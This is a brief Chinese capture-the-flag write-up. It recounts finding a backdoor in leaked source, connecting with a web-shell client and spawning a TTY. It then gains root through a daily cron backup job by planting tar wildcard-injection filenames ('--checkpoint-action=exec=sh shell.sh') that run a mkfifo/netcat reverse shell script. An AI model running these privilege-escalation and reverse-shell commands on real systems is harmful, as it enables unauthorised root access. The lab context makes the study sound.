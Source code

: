 扫目录得到源码

内置后门

菜刀连上

`python -c 'import pty;pty.spawn("/bin/bash")'`创建流，方便切换用户交互

根目录：/flag_here的提示内容，flag在/root/下，需要提权。可以登录到用户actf

查看到`/etc/crontab`中有一个定时任务`/etc/cron.daily/backup`

利用此定时任务提权，在/home/actf/目录下执行：

```
nc -lp 8888 -vv

echo "mkfifo /tmp/jvenbd; nc 127.0.0.1 8888 0</tmp/jvenbd | /bin/sh >/tmp/jvenbd 2>&1; rm /tmp/jvenbd" > shell.sh && chmod +x shell.sh
echo > "--checkpoint-action=exec=sh shell.sh"
echo > "--checkpoint=1"
```

即可得到root用户的shell，拿到flag

其他主机层面的提权没试过。。